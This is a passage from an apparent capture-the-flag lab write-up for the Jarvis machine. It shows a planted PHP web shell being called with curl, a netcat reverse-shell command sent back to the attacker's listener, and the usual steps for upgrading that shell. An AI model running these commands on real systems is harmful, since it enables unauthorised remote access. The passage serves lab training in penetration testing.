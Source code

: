 
Now I can reach it at:

    
    
    root@kali# curl http://10.10.10.143/0xdf.php?cmd=id
    Warning: Binary output can mess up your terminal. Use "--output -" to tell 
    Warning: curl to output it to your terminal anyway, or consider "--output 
    Warning: <FILE>" to save to a file.
    root@kali# curl -s http://10.10.10.143/0xdf.php?cmd=id  --output -
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    root@kali# curl -s http://10.10.10.143/0xdf.php?cmd=id  --output - | xxd
    00000000: 7569 643d 3333 2877 7777 2d64 6174 6129  uid=33(www-data)
    00000010: 2067 6964 3d33 3328 7777 772d 6461 7461   gid=33(www-data
    00000020: 2920 6772 6f75 7073 3d33 3328 7777 772d  ) groups=33(www-
    00000030: 6461 7461 290a 0000 0000 0000            data).......
    

It looks like it appended some nulls on the end for some reason, probably a
part of the sqli file write. But it still works.

#### Shell

I can use that to get a shell:

    
    
    root@kali# curl -s http://10.10.10.143/0xdf.php?cmd=nc+-e+/bin/bash+10.10.14.8+443
    
    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.143.
    Ncat: Connection from 10.10.10.143:37142.
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

### Shell Upgrade

With either shell, I’ll upgrade with the standard technique:

  1. `python -c 'import pty;pty.spawn("bash")'`
  2. [ctrl-z] to background shell
  3. `stty raw -echo`
  4. `fg`
  5. `reset`
  6. Enter `screen` if asked for a terminal type.

Now I have a full terminal, with arrows, tab completion, etc:

    
    
    www-data@jarvis:/var/www/html$ 
    

## Priv: www-data –> pepper
